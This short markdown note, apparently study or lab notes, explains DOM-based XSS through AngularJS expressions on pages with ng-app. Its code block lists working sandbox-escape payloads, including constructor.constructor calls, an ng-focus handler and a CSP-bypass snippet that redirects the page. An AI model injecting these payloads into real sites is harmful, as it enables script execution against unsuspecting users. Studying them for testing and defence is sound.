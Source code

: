 ![image1](Image/xss.png)

## DOM XSS in AngularJS expression

- __When HTML contains ng-app attribute__
  - __you can execute arbitrary JavaScript code__
  - __To get the payloads go to book.hacktricks.xyz__
  - __use any payload in the search bar__
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

